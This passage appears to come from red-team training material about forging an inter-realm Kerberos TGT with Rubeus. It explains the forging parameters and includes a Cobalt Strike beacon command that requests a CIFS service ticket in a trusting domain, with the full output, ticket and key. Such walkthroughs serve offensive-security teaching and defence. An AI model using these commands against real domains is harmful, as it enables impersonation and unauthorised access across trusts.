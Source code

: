 Where:

- `/user` is the username to impersonate.
    
- `/domain` is the FQDN of the trusted domain.
    
- `/sid` is the SID of the trusted domain. 
    
- `/id` is the RID of the impersonated user.
    
- `/groups` are the RIDs of the impersonated user's domain groups.  _Domain Users_ is 513, _Workstation Admins_ is 1106, and _Partner Jump Users_ is 6102.
    
- `/service` is the krbtgt service of the trusting domain.
    
- `/rc4` is the inter-realm key.

> When forging tickets offline, make sure to get the user's group membership correct.  Don't rely on the default groups that Rubeus uses.  Alternatively, forge them 'online' with Rubeus' `/ldap` parameter.

This forged inter-realm TGT is then used to request service tickets from the trusting domain via Rubeus' `asktgs` command.

```powershell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/par-jmp-1.partner.com /dc:par-dc-1.partner.com /ticket:doIFM[...snip...]mNvbQ== /nowrap

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/par-jmp-1.partner.com'
[*] Using domain controller: par-dc-1.partner.com (10.10.122.1)
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIFW[...snip...]uY29t

  ServiceName              :  cifs/par-jmp-1.partner.com
  ServiceRealm             :  PARTNER.COM
  UserName                 :  pchilds (NT_PRINCIPAL)
  UserRealm                :  CONTOSO.COM
  StartTime                :  18/03/2025 12:03:09
  EndTime                  :  18/03/2025 21:50:59
  RenewTill                :  25/03/2025 11:50:59
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  Jby9/S/PknVnM2JdzmeWee0nRO2icW3YLPEA3UULKfA=
```

Where:

- `/service` is the target service in the trusting domain.
    
- `/dc` is a domain controller in the trusting domain.
    
- `/ticket` is the inter-realm TGT.
